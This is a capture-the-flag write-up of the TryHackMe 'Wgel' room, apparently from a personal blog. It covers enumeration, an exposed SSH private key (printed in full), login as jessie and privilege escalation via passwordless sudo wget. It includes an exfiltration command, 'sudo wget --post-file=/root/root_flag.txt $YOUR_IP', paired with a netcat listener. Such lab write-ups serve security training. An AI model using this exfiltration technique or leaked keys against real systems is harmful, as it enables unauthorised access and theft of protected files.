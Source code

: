 ```yaml
---
title: Wgel - TryHackMe
date: "2020/08/07"
tags: ["pentesting", "writeups"]
draft: false
summary: A walkthrough for the Wgel room on TryHackMe
---
```


<TOCInline toc={props.toc} asDisclosure toHeading={3} />

Hey there! Today I am going to walk you through the Wgel machine on [TryHackMe](https://tryhackme.com/room/wgelctf)

The first thing I always do is to export the IP to a global variable. So from now on \$IP will refer to the IP of the target machine.

```bash
export IP={Machine IP}
```

## Enumeration

Let us start our enumeration as usual and do an nmap scan:

```bash
nmap -T4 -A $IP
```

This is what came back:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-07 09:47 EDT
Nmap scan report for 10.10.54.255
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/7%OT=22%CT=1%CU=42515%PV=Y%DS=2%DC=T%G=Y%TM=5F2D5B8F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=RD%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   52.28 ms 10.9.0.1
2   52.35 ms 10.10.54.255

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds
```

So just SSH on port 22 and Apache on port 80. Let us first do some enumeration on the web server.<br/>On first glance there is just the Apache default page. If we have a look at the source code we can see that there is a comment inside:

```html
<!-- Jessie don't forget to udate the webiste -->
```

Apparently someone called Jessie is a developer or user of the target machine.

But let us run dirbuster and see if there is more to find.

At **/sitemap/** there is a blog like website with the title “unapp” but I did not find anything interesting there nor any exploits. So let us move on.

Weirdly my scan did not find anything, but I poked around a bit more and just tried random directories and files. So I stumbled upon this: **/sitemap/.ssh/id_rsa**.

```plain
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

It is an SSH private key you can use to login to someones SSH.<br/>I went ahead and copied the key to a file called **id_rsa** and gave it the permissions SSH likes.

```bash
chmod 600 id_rsa
```

## Gaining Access

Now we can use that previously found key to login to SSH. The only thing we are missing is a user to map that key to. In this case the server would be even vulnerable to an exploit to enumerate all the users on a server, but because we found something for “Jessie” earlier, I assumed, that the key was Jessie’s.<br/>So let’s login as Jessie with the private key.

```bash
ssh -i id_rsa  jessie@$IP
```

### User Flag

The user flag was hidden inside of the “Documents” directory.

```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos

jessie@CorpOne:~$ cd Desktop/
jessie@CorpOne:~/Desktop$ ls

jessie@CorpOne:~/Desktop$ cd ..
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt

jessie@CorpOne:~/Documents$ cat user_flag.txt
USER_FLAG
```

## Post Exploitation & Getting Root

Before uploading linpeas or anything else I fancied, I just had a look at our sudo permissions myself.

```plain
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, apparently we can run **wget** as root without a password. So as always I had a look at [GTFOBins](https://gtfobins.github.io/) and found [this](https://gtfobins.github.io/gtfobins/wget/) for wget.

### Root Flag

It seems like we can download files to another machine. We can use that knowledge to directly exfiltrate the root flag.<br/>(Trust me it took me ages to figure that one out. I first tried to download /etc/shadow and simliar.)

So on my machine I listened for incoming connections on port 80 and stored the output in a file called “root_flag.txt”:

```plain
root@hades      :~/ctf/thm/wgel# nc -lnvp 80 > root_flag.txt
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.54.255.
Ncat: Connection from 10.10.54.255:36442.
```

On the target machine I used wget with the “–post-file” flag to send the root flag to my machine.

```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt $YOUR_IP
--2020-08-07 18:11:21--  http://$YOUR_IP/
Connecting to $YOUR_IP:80... connected.
HTTP request sent, awaiting response...
```

You should now be able to cat out the root flag in the “root_flag.txt” file.

```
root@hades:~/ctf/thm/wgel# cat root_flag.txt
ROOT_FLAG
```

## The End

And there you have it! I hope you had fun, I know I did 🦄
